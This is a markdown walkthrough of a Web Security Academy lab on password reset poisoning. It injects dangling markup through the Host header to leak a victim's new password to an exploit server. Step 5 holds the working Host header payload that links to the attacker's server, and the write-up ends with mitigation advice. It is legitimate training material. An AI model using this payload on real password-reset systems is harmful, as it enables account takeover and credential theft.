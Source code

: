 ## Lab: Password Reset Poisoning via Dangling Markup

**Difficulty:** Expert  
**Category:** Web Security Academy - Host Header Injection  
**Tags:** `password reset poisoning` `dangling markup` 

###  Description

This lab demonstrates a host header injection attack that uses a *dangling markup injection* technique to exfiltrate sensitive data (like a password reset link or new password) from a password reset email by injecting malicious HTML.


###  Steps to Reproduce

1. **Log in to the Lab**
   - Use credentials: `wiener:peter`

2. **Trigger Password Reset**
   - Go to the **Forgot Password** page and request a reset for your own user.
   - Open the email client on the **Exploit Server** and examine the password reset email.
   - Notice: Instead of a reset token, the new password is directly included in the **email body**.

3. **Study Email Structure**
   - In Burp Proxy, observe the response to the `/email` request.
   - Note that the response HTML is sanitized **before rendering**, but you can switch to **raw HTML view**, which is not sanitized.

4. **Initial Host Header Injection**
   - Send a `POST /forgot-password` request in **Burp Repeater**.
   - Modify the `Host:` header to include an **arbitrary port** (e.g., `lab-id.web-security-academy.net:hacker.com`)
   - This will break the email HTML formatting and reveal how the server builds the email.

5. **Craft Dangling Markup Injection**
   - Send another `POST /forgot-password` request.
   - Use a payload like this in the `Host:` header:
     ```
     Host: YOUR-LAB-ID.web-security-academy.net:"><a href="//YOUR-EXPLOIT-SERVER.net">
     ```
   - This breaks the HTML context and appends a new `href` link to your exploit server.

6. **Capture the Password**
   - Check the email client and then inspect your **exploit server logs**.
   - Look for a request like:
     ```
     GET /?login
     ```
   - This request will contain the **rest of the email body**, including **Carlos’s new password**.

7. **Reset Carlos's Password**
   - Send a final `POST /forgot-password` request with the `username=carlos`.
   - Then view the exploit server log again to find Carlos’s new password.

8. **Login as Carlos**
   - Use the captured password to log in as `carlos` and solve the lab.

###  Mitigation

To prevent such attacks:
- Avoid including user-controlled input in HTML emails directly.
- Use proper sanitization libraries both on **rendered and raw content**.
- Avoid including sensitive information like passwords in emails; use reset links with tokens instead.

